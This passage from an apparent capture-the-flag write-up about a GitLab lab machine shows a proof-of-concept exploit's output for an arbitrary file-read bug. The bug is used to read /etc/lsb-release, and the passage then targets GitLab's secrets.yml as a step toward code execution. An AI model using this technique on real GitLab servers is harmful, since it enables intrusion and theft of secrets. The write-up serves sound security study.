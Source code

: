     [>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
    [>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]
    
    [+] Target        : https://git.laboratory.htb
    [+] Username      : 0xdf
    [+] Password      : 0xdf0xdf
    [+] Project Names : ProjectOne, ProjectTwo
    
    [!] Trying to Login...
    [+] Login Successful!
    [!] Creating ProjectOne...
    [+] ProjectOne Created Successfully!
    [!] Creating ProjectTwo...
    [+] ProjectTwo Created Successfully!
    [>] Absolute Path to File : /etc/lsb-release
    [!] Creating an Issue...
    [+] Issue Created Successfully!
    [!] Moving Issue...
    [+] Issue Moved Successfully!
    [+] File URL : https://git.laboratory.htb/0xdf/ProjectTwo/uploads/4a8e600fea969e736ffa05fa84f1d14d/lsb-release
    
    [>] Absolute Path to File :
    

Now I’ll enter a filename, and it works:

    
    
    [>] Absolute Path to File : /etc/lsb-release
    ----------------------------------------
    
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.6 LTS"
    
    ----------------------------------------
    

On exiting, it cleans up as well:

    
    
    [>] Absolute Path to File : ^C
    [-] Keyboard Interrupt
    [!] Deleting ProjectOne...
    [+] ProjectOne Successfully Deleted!
    [!] Deleting ProjectTwo...
    [+] ProjectTwo Successfully Deleted!
    

### RCE

#### Enumeration

In the script above, there’s a link to a [HackerOne
report](https://hackerone.com/reports/827052), and while the report starts off
as arbitrary read, the researcher finds how to convert that to code execution.
I’ll start by reading `/opt/gitlab/embedded/service/gitlab-
rails/config/secrets.yml`:
